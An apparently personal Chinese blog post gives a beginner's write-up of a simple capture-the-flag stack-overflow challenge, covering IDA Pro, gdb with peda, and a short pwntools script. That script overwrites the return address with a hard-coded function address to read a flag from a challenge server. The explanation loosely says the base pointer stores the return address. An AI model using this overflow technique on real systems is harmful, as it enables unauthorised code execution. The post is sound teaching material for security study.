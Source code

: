 ```yaml
---
layout: post
title:  "PWN之基础栈溢出"
date:   2017-03-17 11:49:45 +0200
categories: ctf
published: true
---
```

    这里对一道非常简单的pwn（甚至可以说最简单）做一个讲解。

题目可以在这里下载[http://pan.baidu.com/s/1mhKqOjQ](http://pan.baidu.com/s/1mhKqOjQ)。

### 0x00 使用ida pro分析代码

对于PWN题，有的题目是不会给你程序的，但有的会给，比如这个题目。拿到题目之后，首先使用IDA PRO分析代码。对于IDA PRO可以使用我这个[http://pan.baidu.com/s/1o7IkRBO](http://pan.baidu.com/s/1o7IkRBO)。

<br/>

IDA PRO打开它的文件夹后可以看到它有两个版本，一个对应32位程序，一个对应64位程序。对于32位和64位程序的区别这里就不做详细叙述，直接讲IDA的使用方法。

<br/>

因为这道题的题目是64位的（如果使用了错误版本的IDA，IDA会给你提示），所以我们用64位的IDA打开它，然后可以看到IDA的代码分析结果。

<br/>

这里是函数界面。双击里面的函数在反汇编界面看到该函数的反汇编结果。

![p1](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/01.png)

<br/>

这里是IDA的反汇编界面。在这个界面按 `空格`可以切换到其他的现实模式。

![p2](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/02.png)

<br/>

比如可以按空格切换到main函数的这个界面。这个界面里的代码是汇编代码，想要读懂的话需要学习相关知识。

![p3](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/03.png)

<br/>

这里我们用到的就这么多，所以先介绍到这里。那么有同学会问了，汇编太难了，我读不懂该怎么办？这里就能用到IDA PRO最强大的功能之一————反汇编到C语言代码。还是在刚刚main函数的位置，我们按下`F5`，然后可以看到main函数的反汇编到C语言的代码。

![p4](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/04.png)

<br/>

这下分析代码就变得轻松多了。因为这个程序的函数也不是很多，我们可以逐个看看这些函数哪个比较可疑，然后我们注意到了一个名字叫 **good_game**的函数，里面有一句代码是 `v0 = fopen("flag.txt", "r");`。这个 **flag.txt**实在是相当可疑。可是这个程序 **main**函数里只是读取了我们的输入呀，怎么才能让它进入这个函数呢？

<br/>

这里就涉及到了栈溢出的知识。

### 0x01 栈溢出

栈溢出是PWN中最常利用的漏洞之一，它涉及到了程序运行中 **栈帧**的概念。那么什么是栈帧呢？对于栈溢出知识的介绍网上有很多人介绍过，这篇博客主要教大家一些PWN工具的利用，所以这里就给出几个链接，大家可以通过这几个链接学习栈溢出的知识。

<br/>

[以动画的形式生动演示了栈溢出的过程](https://www.codebashing.com/io/lessons/stack_overflow/#/lesson/stack overflows/objectives?_k=608z53)

[知乎上的一些回答](https://www.zhihu.com/question/22444939)

[这篇对寄存器指针的说明比较详细](http://eleveneat.com/2015/07/11/Stack-Frame/)

<br/>

应用到我们这个程序中来，大概是这样一个分析过程。首先我们观察这个 **read()**函数。

`read(0, &v4, 0x100uLL);`

可以看出来它是往 `v4`这个变量储存的地址里，读取 **0x100**个字符的输入（ **0x**前缀表示这是个16进制数），那么我们关注一下 `v4`在栈中的位置。

<br/>

`__int64 v4; // [sp+0h] [bp-88h]@1`

可以看出来，它在 **bp-88h**这个位置。**88h**中的 **h**表明这是个16进制数。根据我们栈帧的知识， **bp**中存储的是函数的返回地址，如果我们能利用我们的输入把bp对应的地址给覆盖成 **good_ganme**对应的地址，那么程序在走完 **main()**之后，将会返回到 **good_game()**，运行读取flag的代码。

<br/>

想必对于初学者来说理解这些是比较困难的，但万事开头难，想要深入的话这样的学习是必要的，如果自己想要学习的话，我推荐去看看汇编语言相关的书籍，能对程序的运行有更深入的理解。


## 0x02 gdb动态调试

上面分析了一堆，到底能不能在实践上用上呢？我们可以通过 **gdb**工具来动态调试linux下可执行文件。在运行 **gdb**之前，我推荐大家安装一个插件，地址在[这里](https://github.com/longld/peda)。如果看不懂readme的意思的话，在linux的命令行中执行以下两行代码：

```shell
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

即可安装上这个gdb插件。让我们看看实际的操作。

<br/>

首先在目标文件目录下使用gdb命令。

![p5](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/05.png)

<br/>

然后输入`file [文件名]`，让gdb导入该文件。（注意要是不在被导入文件的目录下是不能导入文件的）

![p6](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/06.png)

<br/>

然后输入`disas main`即“反编译main函数”的意思。

![p7](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/07.png)

<br/>

然后使用`b *(main+42)`在read()函数后加断点。加了断点之后程序在运行时就会停在断点处。

![p8](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/08.png)

<br/>

使用`r`让程序跑起来。然后随便输入一段字符。

![p9](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/09.png)

<br/>

上图的中间有许多调试信息，这里我们关注一下 **RBP**的信息，然后输入`stack 50`查看栈的50行信息。

![p10](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/10.png)

我们成功看到了我们的输入，和在 **0096**这个位置的 **RBP**对应的数值。感兴趣的同学可以在这里手动输入0x88个以上的字符实验一下结果。动态调试证明了我们的结论，那么让我们开始写解题脚本吧！

    gdb是个非常强大的调试工具，这里只用到了它的极少部分功能，有兴趣的同学可以自行查询资料。

### 0x03 编写脚本

PWN题通常使用python来写脚本的，当然也有用C来写脚本的大神，我们这里就用python中的`pwn`包来完成脚本的任务。

    安装pwn包非常简单。在命令行中输入pip install pwn即可。

<br/>

直接把脚本放上来:

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
 
from pwn import *
 
conn = remote('45.32.93.239', 54321)
print conn.recvline()
payload = "a" * 0x88          
payload += p64(0x0000000000400620)  #这串数字是good_game的函数地址
conn.sendline(payload)
print conn.recv()
print conn.recv()
```

对代码作部分说明。 `remote()`是链接到题目服务器的函数。 `recvline()`是接收服务器传来的一行字符。`payload`是我们要提交的字符串。`p64()`是把16进制数字转化成64位地址字符串的函数。`sendline()`是发送一行数据到服务器。`recv()`是接收服务器的数据。

<br/>

代码还是相当直观的，应该比较好理解。可能有同学不知道good_name函数地址是如何获取的。我们可以通过ida来获取。首先把反汇编界面调到带地址的汇编代码，然后在函数窗口双击good_game函数即可。

<br/>

首先要切到这个栏，然后按空格可以切到带地址的状态。

![p11](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/11.png)

<br/>

然后双击good_game函数地址就能看到了。

![p12](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/12.png)

<br/>

最后展示以下脚本运行的结果。

![p13](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/13.png)